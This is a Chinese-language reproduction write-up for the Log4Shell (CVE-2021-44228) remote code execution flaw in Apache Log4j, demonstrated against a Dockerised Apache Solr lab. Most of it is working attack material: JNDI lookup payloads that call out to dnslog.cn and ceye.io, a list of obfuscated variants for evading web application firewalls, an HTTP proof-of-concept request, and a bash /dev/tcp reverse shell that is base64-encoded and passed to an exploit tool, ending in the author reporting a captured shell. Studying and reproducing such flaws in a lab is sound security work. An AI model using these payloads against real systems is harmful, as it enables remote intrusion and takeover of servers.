 # CVE-2021-44228

> **Created by：** A-little-dragon
> 
> **Team：** TracelessSec
> 
> **漏洞描述：** Apche log4j远程代码执行漏洞



# 0x01 产品简介

Log4j 是 Apache 软件基金会开发的日志记录框架。顾名思义，Log4J 是个记录器；记录程序中的错误消息和用户输入等重要信息。

Log4J 是个开源软件库，提供开发人员可自由使用的预先编写的代码。开发人员可以将 Log4J 库插入自己的应用程序，无需专门编写记录器。这种便利性是 Log4J 应用广泛的原因；例如，它内置于 Microsoft 和 Amazon 等大型企业的产品中。

# 0x02 漏洞描述

Log4Shell 源于旧版本 Log4J 2 处理 Java 命名和目录接口 (JNDI) 查询的方式。JNDI 是一款应用程序编程接口 (API)，帮助 Java 应用程序访问外部服务器上托管的资源。JNDI 查询是个命令，告诉应用程序要前往服务器并下载具体对象，例如一段数据或脚本。旧版本的 Log4J 2 会自动运行通过这种方式下载的所有代码。

信息查找替换允许用户和应用程序使用特定语法（`${prefix:name}`）在日志信息中向 Log4J 发送变量。当 Log4J 遇到此语法时，它会解析该变量并将值记录在日志中。例如，如果 Log4J 收到一条消息，内容为`${java:version}`,它会找出设备上运行的当前 Java 版本，并会在日志中记录：“Java 版本 X.XX”。

换句话说，Log4J 不会将消息查找替换视为纯文本。它像命令一样对待它们，并根据它们所说的采取行动。黑客可以利用这一事实，向运行易受攻击的 Log4J 版本的应用程序发送恶意 JNDI 查找命令。例如，黑客可以向 Log4J 发送如下字符串：`${jndi:ldap://{ip}:{port}/dwsd}`当 Log4J 收到此消息时，它将通过访问该地址的服务器并下载位于 `/dwsd` 的对象来解析该变量。这一过程将导致 Log4J 执行黑客藏匿在该位置的任意 Java 代码。

# 0x03 影响范围

该漏洞影响 Apache Log4J 2 的 2.14.1 版本及更早版本

`Apache Log4j 2.x <= 2.14.1 <= Log4j 2.15.0-rc1`

# 0x04 环境搭建

执行以下命令启动使用 `Log4j 2.14.1` 的 `Apache Solr 8.11.0`：

```
docker compose up -d
```

服务器启动后，浏览`http://your-ip:8983`即可查看 Apache Solr 的管理门户。

# 0x04 漏洞复现

## Payload

```
${jndi:dns://${sys:java.version}.xxx.dnslog.cn}
${jndi:ldap://${sys:java.version}.xxx.dnslog.cn}
${jndi:rmi://${sys:java.version}.xxx.dnslog.cn}
${jndi:ldap://123.xxx.dnslog.cn}
```

## Bypass WAF

```
${jndi:ldap://127.0.0.1:1389/a}

${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://ceye.io/a}

${${::-j}ndi:rmi://ceye.io/a}

${jndi:rmi://ceye.io}

${${lower:jndi}:${lower:rmi}://ceye.io/a}

${${lower:${lower:jndi}}:${lower:rmi}://ceye.io/a}

${${lower:j}${lower:n}${lower:d}i:${lower:rmi}://ceye.io/a}

${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://ceye.io/a}

${${upper:jndi}:${upper:rmi}://ceye.io/a}

${${upper:j}${upper:n}${lower:d}i:${upper:rmi}://ceye.io/a}

${${upper:j}${upper:n}${upper:d}${upper:i}:${lower:r}m${lower:i}}://ceye.io/a}

${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://${hostName}.ceye.io}

${${upper::-j}${upper::-n}${::-d}${upper::-i}:${upper::-l}${upper::-d}${upper::-a}${upper::-p}://${hostName}.ceye.io}

${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://${hostName}.${env:COMPUTERNAME}.${env:USERDOMAIN}.${env}.ceye.io
```

## POC

```
GET /solr/admin/cores?action=${jndi:ldap://${sys:java.version}.xxx.dnslog.cn} HTTP/1.1
Host: your-ip:8983
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Connection: close
```

## 开始

### 验证漏洞

这里利用HackBar访问该地址

```
http://{ip}:8983/solr/admin/cores?action=${jndi:ldap://111.xxx.dnslog.cn}
```

![Untitled](image/Untitled.png)

DNSlog平台返回如下信息

![Untitled](image/Untitled%201.png)

获得回显，说明存在漏洞。

### 反弹shell

> 注意：需要用到 **JNDI-Injection-Exploit** 工具，地址：[https://github.com/welk1n/JNDI-Injection-Exploit](https://github.com/welk1n/JNDI-Injection-Exploit)
> 

攻击机监听端口9999

```bash
nc -lvvp 9999
```

![Untitled](image/Untitled%202.png)

构造反弹shell命令

```bash
bash -i >& /dev/tcp/{vps_ip}/{vps_port} 0>&1
```

> 注意：vps_ip是你要反弹shell的主机ip，vps_port是要监听的端口。
> 

然后进行base64加密

base64加密站点地址：[https://tool.chinaz.com/tools/base64.aspx](https://tool.chinaz.com/tools/base64.aspx)

![Untitled](image/Untitled%203.png)

利用**JNDI-Injection-Exploit**工具，构造以下命令

```bash
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEwMC4xMjcvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}" -A "{vps_ip}"
```

运行后，如下所示

![Untitled](image/Untitled%204.png)

利用生成的payload进行攻击

![Untitled](image/Untitled%205.png)

发现拿到shell

![Untitled](image/Untitled%206.png)

![Untitled](image/Untitled%207.png)

